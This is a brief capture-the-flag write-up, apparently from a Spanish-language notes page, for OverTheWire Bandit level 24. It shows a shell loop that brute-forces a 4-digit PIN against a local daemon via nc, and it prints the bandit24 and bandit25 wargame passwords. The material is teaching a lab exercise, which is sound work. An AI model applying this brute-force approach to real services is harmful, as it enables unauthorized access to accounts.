 # Fuerza bruta aplicada a conexiones \[Bandit24]

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time

```
// 

bandit24@bandit:/tmp/tmp.bZD94DJq6i$ for i in {5555..9999}; do echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i";done > conbinations2.txt
bandit24@bandit:/tmp/tmp.bZD94DJq6i$ cat conbinations2.txt | nc localhost 30002 | grep -vE "Wrong|Please enter"
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting
```

